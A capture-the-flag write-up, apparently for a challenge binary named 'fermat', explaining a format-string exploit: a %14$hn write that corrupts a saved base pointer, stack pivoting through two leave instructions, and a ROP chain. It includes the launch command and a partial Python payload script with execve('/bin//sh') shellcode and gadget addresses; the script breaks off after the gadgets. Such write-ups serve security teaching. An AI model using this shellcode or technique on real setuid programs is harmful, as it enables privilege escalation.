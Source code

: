 How? We have 7 characters.

The following input: `%14$hn` writes 0 in the two bytes starting at the address pointed by the 14th word after the format string.

In practice:
- Looking back at the image, the 14th word after the format string is at address `0xffffd588`;
- This address points to `0xffffd5a8`;
- So, our format string will write 0x0 into `0xffffd5a8` and `0xffffd5a9`
- Previously, `0xffffd5a8` contained value `0xffffd5c8`;
- After `printf()`, it will contain value `0xffff0000`.

Now, remember the `welcome()` function? Thanks to that function, we can write a huge payload into memory, and buffer will grow (in stack, so towards lower addresses), so that we can make the area now written in Saved BP (`0xffff0000`) pointing to our payload.

Now I needed to find a way to write that value into `ESP` and trigger the ROPChain.

The trick to trigger stack pivoting is using the two `leave` instruction in `dispatch` and `main`:
- The first `leave` moves `ESP` to current `EBP`, then copies our overwritten SBP into `EBP`;
- The second `leave` moves `ESP` to current `EBP` - **which we injected in the previous frame** - then pops the SBP into EBP, but this doesn't matter since ESP points to our payload now :)

I slightly modified this approach because of these instructions in `main`:

![AltText](/images/icectffermat_4.JPG)

Following `leave`,
the value in memory pointed by `ecx - 4` is moved into `esp`. Luckily, we can control the content of `ecx`, since it is loaded in:
`mov ecx, DWORD PTR [ebp - 0x4]`, and `ebp` is already pointing to our fake stack.

The rest of the work has just been writing a ROPchain which didn't contain NULL bytes (that couldn't reside in `env`) -- but since the binary is statically linked, I have a whole load of ROP gadgets already linked to binary, found with `ropper` -- and carefully computing addresses inside and outside gdb. Here, the script to generate the payload, which I used in target machine with:

`USER=$(python exploit.py) ./fermat "%14\$hn"`

```
import struct

def p32(address):
  return struct.pack("I", address)

# To compute addresses to store args to mprotect
mprotect_base = 0xffff105c
# mprotect requires a page aligned boundary
stackpage_base = 0xffff1000
# setreuid(geteuid(), geteuid()) && execve("/bin//sh", NULL, NULL)
shellcode = "\x6a\x31\x58\x99\xcd\x80\x89\xc3\x89\xc1\x6a\x46"
shellcode += "\x58\xcd\x80\xb0\x0b\x52\x68\x6e\x2f\x73\x68\x68"
shellcode += "\x2f\x2f\x62\x69\x89\xe3\x89\xd1\xcd\x80"


movdpedx = 0x08055a2b # mov dword ptr [edx], eax; ret
xoreax = 0x08049743 # xor eax, eax; ret
inceax = 0x0807f1bf # inc eax; ret
popedx = 0x08073bda # pop edx; ret
```